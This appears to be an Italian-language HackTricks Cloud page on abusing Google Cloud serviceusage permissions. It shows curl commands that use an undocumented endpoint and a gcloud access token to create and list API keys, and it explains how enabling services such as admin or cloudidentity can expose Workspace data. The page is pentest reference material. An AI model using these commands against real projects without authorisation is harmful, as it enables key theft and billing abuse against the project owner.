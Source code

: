 # GCP - Serviceusage Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## serviceusage

I seguenti permessi sono utili per creare e rubare chiavi API, non questo dalla documentazione: _Una chiave API è una semplice stringa crittografata che **identifica un'applicazione senza alcun principale**. Sono utili per accedere a **dati pubblici in modo anonimo**, e vengono utilizzate per **associare** le richieste API con il tuo progetto per quota e **fatturazione**._

Pertanto, con una chiave API puoi far pagare quella azienda per il tuo utilizzo dell'API, ma non sarai in grado di elevare i privilegi.

Per conoscere altri permessi e modi per generare chiavi API controlla:

{% content-ref url="gcp-apikeys-privesc.md" %}
[gcp-apikeys-privesc.md](gcp-apikeys-privesc.md)
{% endcontent-ref %}

### `serviceusage.apiKeys.create`

È stata trovata un'API non documentata che può essere utilizzata per **creare chiavi API:**

{% code overflow="wrap" %}
```bash
curl -XPOST "https://apikeys.clients6.google.com/v1/projects/<project-uniq-name>/apiKeys?access_token=$(gcloud auth print-access-token)"
```
{% endcode %}

### `serviceusage.apiKeys.list`

È stata trovata un'altra API non documentata per elencare le chiavi API che sono già state create (le chiavi API appaiono nella risposta):

{% code overflow="wrap" %}
```bash
curl "https://apikeys.clients6.google.com/v1/projects/<project-uniq-name>/apiKeys?access_token=$(gcloud auth print-access-token)"
```
{% endcode %}

### **`serviceusage.services.enable`** , **`serviceusage.services.use`**

Con queste autorizzazioni un attaccante può abilitare e utilizzare nuovi servizi nel progetto. Questo potrebbe consentire a un **attaccante di abilitare servizi come admin o cloudidentity** per cercare di accedere alle informazioni di Workspace, o ad altri servizi per accedere a dati interessanti.

## **Riferimenti**

* [https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/](https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/)

<details>

<summary><strong>Supporta HackTricks e ottieni vantaggi!</strong></summary>

Lavori in una **società di cybersecurity**? Vuoi vedere la tua **azienda pubblicizzata in HackTricks**? o vuoi avere accesso alla **versione più recente del PEASS o scaricare HackTricks in PDF**? Controlla i [**Piani di ABBONAMENTO**](https://github.com/sponsors/carlospolop)!

Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione esclusiva di [**NFT**](https://opensea.io/collection/the-peass-family)

Ottieni il [**merch ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)

**Unisciti al** [**💬**](https://emojipedia.org/speech-balloon/) [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguimi** su **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Condividi i tuoi trucchi di hacking inviando PR al** [**repo github di hacktricks**](https://github.com/carlospolop/hacktricks)\*\*\*\*

**.**

</details>

